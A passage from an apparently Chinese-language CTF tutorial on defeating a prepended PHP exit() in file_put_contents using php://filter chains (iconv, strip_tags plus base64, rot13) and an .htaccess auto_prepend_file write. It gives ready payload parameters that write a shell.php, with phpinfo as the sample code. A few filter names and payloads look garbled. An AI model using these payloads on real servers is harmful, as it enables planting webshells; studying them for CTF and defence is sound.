 这个时候用到的过滤器是`convert.iconv.UCS-4LE.UCS-4BE` ,

原理是一样的，就不细写了。

#### 四.过滤器嵌套

用了一个过滤器`string.strip_tags`

> `string.strip_tags`可以过滤掉html标签和php标签里的内容

所以这个过滤思路就是首先让他把\<?php exit();?>去除掉，然后再来base64进行解码，所以这个就要求我们先补充一个?>,并且要先把\<?php exit();?>先去掉，而且后面我们的语句不能先解码。

```url
filename=php://filter/string.strip_tags|convert.base64-decode/resource=shell.php&content=?>PD9waHAgcGhwaW5mbygpOz8+
```

{% hint style="danger" %}
这个在php7.3以上不能用
{% endhint %}

#### 五. `.htaccess`的预包含利用

这里先给大家看姿势再解释吧

```url
filename=php://filter/write=string.strip_tags/resource=.htaccess&
content=?>php_value auto_prepend_file D:\\phpstudy_pro\\www\\flag.php
```

这里还是用的string.strip\_tags去去除前面的exit，然后把后面的代码写入到.htaccess文件（apache配置文件）里面。后面的代码是一个配置，PHP 配置 `auto_prepend_file`，使得在执行所有 PHP 脚本之前，会先执行 `D:\\phpstudy_pro\\www\\flag.php` 这个文件。

#### <mark style="color:orange;">②</mark><mark style="color:orange;">`file_put_contents($content,"<?php exit();".$content);`</mark>

这种情况下文件名和文件内容一致，但是我们需要前面的文件时php结尾，所以我们需要添加.php，并且需要利用filter这个还是一样的。所以我们写出来的姿势就变成了。

具体解释可以看，讲得很透彻了。

{% embed url="https://www.freebuf.com/articles/web/266565.html" %}

一.base64编码

```url
content=php://filter/string.strip_rot13|convert.base64-decode/resource=?>PD9waHAgcGhwaW5mbygpOz8+/../shell.php
```

#### 二.rot13编码

```url
content=php://filter/string.strip_rot13|<?cuc cucvasb();?>|/resource=shell.php
```

```url
content=php://filter/string.strip_rot13/resource=<?cuc cucvasb();?>/../shell.php
```
